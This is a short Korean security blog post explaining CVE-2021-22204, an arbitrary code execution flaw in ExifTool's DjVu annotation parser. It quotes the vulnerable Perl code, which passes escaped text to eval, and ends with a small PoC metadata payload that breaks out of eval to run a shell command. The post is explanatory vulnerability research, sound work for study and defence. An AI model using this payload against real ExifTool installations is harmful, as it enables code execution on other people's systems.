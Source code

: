 ```yaml
---
title: "[하루한줄] CVE-2021-22204: ExifTool 임의 코드 실행 취약점"
author: L0ch
tags: [L0ch, cve, arbitrary code execution, escape sequence]
categories: [1day1line]
date: 2021-05-18 14:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

[ExifTool CVE-2021-22204 - Arbitrary Code Execution](https://devcraft.io/2021/05/04/exiftool-arbitrary-code-execution-cve-2021-22204.html)

## Target

- ExifTool 

## Explain
이미지 파일의 메타 데이터를 수정할때 사용되는 ExifTool에서 임의 코드 실행 취약점이 발견되어 세부 정보가 공개되었습니다.

ExifTool은 perl 스크립트로 구현되었으며 취약점은 DjVu 파일을 파싱하는 `DjVu` 모듈의 `ParseAnt` 메서드에 존재합니다.

```perl
sub ParseAnt($)
...
$tok = '';
  for (;;) {
      # get string up to the next quotation mark
      # this doesn't work in perl 5.6.2! grrrr
      # last Tok unless $$dataPt =~ /(.*?)"/sg;
      # $tok .= $1;
      my $pos = pos($$dataPt);
      last Tok unless $$dataPt =~ /"/sg;
      $tok .= substr($$dataPt, $pos, pos($$dataPt)-1-$pos);
      # we're good unless quote was escaped by odd number of backslashes
      last unless $tok =~ /(\\\\+)$/ and length($1) & 0x01;
      $tok .= '"';    # quote is part of the string
  }
  # must protect unescaped "$" and "@" symbols, and "\\" at end of string
  $tok =~ s{\\\\(.)|([\\$\\@]|\\\\$)}{'\\\\'.($2 || $1)}sge;
  # convert C escape sequences (allowed in quoted text)
  $tok = eval qq{"$tok"};
...
```

위 코드는 C와 유사한 escape sequence를 구현한 코드로 `$tok` 변수의 특수 문자를 escape 처리한 뒤 이를 `eval` 함수에 전달합니다.

그러나 정규식 `tok =~ /(\\\\+)$/` 에서 `$`가 문자열의 끝과 개행을 의미해 아래와 같이 백 슬래시와 개행 문자를 쓰면 문자열이 끝난 것으로 인식하고 개행 이후에 오는 특수 문자를 처리하지 않습니다. 따라서 `return data;` 코드를 실행하는 아래 PoC와 같이 `eval` 함수를 벗어나 임의 코드를 실행할 수 있습니다.

```python
(metadata
    (Author "\\
" . return `date`; #")
)
```